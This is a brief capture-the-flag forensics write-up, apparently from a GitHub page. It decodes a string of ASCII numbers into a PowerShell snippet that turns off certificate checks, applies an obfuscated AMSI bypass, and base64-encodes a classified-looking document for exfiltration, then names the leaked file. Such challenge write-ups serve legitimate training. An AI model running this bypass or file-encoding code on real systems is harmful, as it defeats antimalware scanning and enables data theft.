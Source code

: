 ```
91 78 101 116 46 83 101 114 118 105 99 101 80 111 105 110 116 77 97 110 97 103 101 114 93 58 58 83 101 114 118 101 114 67 101 114 116 105 102 105 99 97 116 101 86 97 108 105 100 97 116 105 111 110 67 97 108 108 98 97 99 107 32 61 32 123 36 116 114 117 101 125 10 116 114 121 123 10 91 82 101 102 93 46 65 115 115 101 109 98 108 121 46 71 101 116 84 121 112 101 40 39 83 121 115 39 43 39 116 101 109 46 77 97 110 39 43 39 97 103 101 109 101 110 116 46 65 117 116 39 43 39 111 109 97 116 105 111 110 46 65 109 39 43 39 115 105 85 116 39 43 39 105 108 115 39 41 46 71 101 116 70 105 101 108 100 40 39 97 109 39 43 39 115 105 73 110 105 39 43 39 116 70 97 105 108 101 100 39 44 32 39 78 111 110 80 39 43 39 117 98 108 105 99 44 83 116 97 39 43 39 116 105 99 39 41 46 83 101 116 86 97 108 117 101 40 36 110 117 108 108 44 32 36 116 114 117 101 41 10 125 99 97 116 99 104 123 125 10 91 99 111 110 118 101 114 116 93 58 58 84 111 66 97 115 101 54 52 83 116 114 105 110 103 40 40 71 101 116 45 67 111 110 116 101 110 116 32 45 112 97 116 104 32 34 67 58 92 85 115 101 114 115 92 103 97 115 116 111 110 46 108 97 103 97 102 102 101 92 68 111 99 117 109 101 110 116 115 92 76 65 85 78 67 72 32 67 79 68 69 83 32 40 67 76 65 83 83 73 70 73 69 68 41 46 100 111 99 120 34 32 45 69 110 99 111 100 105 110 103 32 98 121 116 101 41 41
```
Transform these number into ASCII test using an online converter like this one: https://codebeautify.org/ascii-to-text

```
[Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
try{
[Ref].Assembly.GetType('Sys'+'tem.Man'+'agement.Aut'+'omation.Am'+'siUt'+'ils').GetField('am'+'siIni'+'tFailed', 'NonP'+'ublic,Sta'+'tic').SetValue($null, $true)
}catch{}
[convert]::ToBase64String((Get-Content -path "C:\Users\gaston.lagaffe\Documents\LAUNCH CODES (CLASSIFIED).docx" -Encoding byte))
```

You find that the leaked document is: `C:\Users\gaston.lagaffe\Documents\LAUNCH CODES (CLASSIFIED).docx`

Beautiful forensics capture the flag!

Cheers to Cyber Command :-)
